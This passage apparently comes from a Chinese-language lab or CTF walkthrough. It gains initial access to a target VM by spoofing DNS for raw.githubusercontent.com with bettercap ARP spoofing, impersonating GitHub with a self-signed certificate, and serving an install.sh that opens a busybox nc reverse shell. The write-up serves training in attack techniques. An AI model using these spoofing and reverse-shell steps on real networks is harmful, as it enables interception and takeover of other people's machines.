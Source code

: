 ## 2.1 攻击思路分析

根据页面显示的命令，判断后台可能存在定时脚本循环执行 curl 命令。我们可以通过以下方式获取初始访问权限：

1. DNS 劫持 `raw.githubusercontent.com` 域名
2. 搭建恶意 HTTPS 服务器
3. 提供恶意的 `install.sh` 脚本

## 2.2 环境准备

### 2.2.1 创建恶意文件结构

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ mkdir -p ll104567/d2VsY29tZTpqdW1v/refs/heads/main/
```

### 2.2.2 制作恶意脚本

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ echo 'busybox nc 192.168.205.128 8888 -e /bin/bash' > ll104567/d2VsY29tZTpqdW1v/refs/heads/main/install.sh
```

### 2.2.3 生成SSL证书

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem -subj "/CN=raw.githubusercontent.com"
...
```

### 2.2.4 启动HTTPS服务

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ sudo openssl s_server -accept 443 -WWW -key key.pem -cert cert.pem 
Using default temp DH parameters
ACCEPT
```

## 2.3 DNS劫持

使用 bettercap 进行 ARP 欺骗和 DNS 劫持：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo bettercap
bettercap v2.33.0 (built for linux amd64 with go1.22.6) [type 'help' for a list of commands]

192.168.205.0/24 > 192.168.205.128  » set arp.spoof.targets 192.168.205.129
192.168.205.0/24 > 192.168.205.128  » set dns.spoof.domains raw.githubusercontent.com
192.168.205.0/24 > 192.168.205.128  » set dns.spoof.address 192.168.205.128
192.168.205.0/24 > 192.168.205.128  » arp.spoof on
192.168.205.0/24 > 192.168.205.128  » dns.spoof on
```
